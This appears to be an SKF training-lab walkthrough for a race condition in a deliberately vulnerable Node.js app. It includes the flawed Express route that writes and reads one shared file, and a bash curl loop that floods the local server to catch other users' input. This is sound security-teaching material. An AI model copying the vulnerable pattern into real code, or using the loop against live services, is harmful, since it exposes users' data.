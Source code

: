 # KBID XXX - Race Condition

## Running the app nodeJs

First make sure nodejs and npm are installed on your host machine.
After installation, we go to the folder of the lab we want to practice.
"i.e /skf-labs/XSS, /skf-labs/RFI/" and run the following commands:

```
$ npm install
```

```
$ npm start
```

Now that the app is running let's go hacking!

## Reconnaissance

#### Step1

We can download a file from the server by doing a GET request to the server.

PRINTSCREEN PLACEHOLDER

Let's try:

PRINTSCREEN PLACEHOLDER

Once we download the file we can see whatever we add to the URL is being written in a file called shared-file.

PRINTSCREEN PLACEHOLDER

#### Step 2

As the application suggests, there is a Race condition vulnerability in this app, let's try to find it.

If we look at the code we see that the application gets the query parameter, writes to a file called shared-file.txt, then opens the file and send it back as a response.

```javascript
app.get("/:value", (req, res) => {
  fs.writeFileSync("shared-file.txt", req.params.value);
  fs.open("shared-file.txt", "r", (err, fd) => {
    let file = fs.readFileSync("shared-file.txt", "utf8");
    res.setHeader("Content-Type", "text/html", "charset=utf-8");
    res.setHeader(
      "Content-Disposition",
      "attachment; filename=shared-file.txt"
    );
    res.sendFile(__dirname + "/shared-file.txt");
  });
});
```

#### Step 3

How can we exploit this?

We have a very small window between the writing of the file:

```javascript
fs.writeFileSync("shared-file.txt", req.params.value);
```

and the response:

```javascript
fs.open("shared-file.txt", "r", (err, fd) => {
  let file = fs.readFileSync("shared-file.txt", "utf8");
  res.setHeader("Content-Type", "text/html", "charset=utf-8");
  res.setHeader("Content-Disposition", "attachment; filename=shared-file.txt");
  res.sendFile(__dirname + "/shared-file.txt");
});
```

Maybe if we have multiple users on this application at the same time we might be able to intercept someone else's query.

## Exploitation

In order to do that we must send requests with high frequency.

Doing it manually is practically impossible, so we create a script that does that for us:

```sh

#!/bin/bash

while true; do

	curl -i -s -k  -X $'GET' -H $'Host: localhost:5000' $'http://localhost:5000/111' | grep "111"

done

```

and in the meantime we will send a couple requests from Burp:

PRINTSCREEN PLACEHOLDER

If we look in the logs we will see:

PRINTSCREEN PLACEHOLDER

## Additional sources

https://wiki.owasp.org/index.php/Testing_for_Race_Conditions_(OWASP-AT-010)
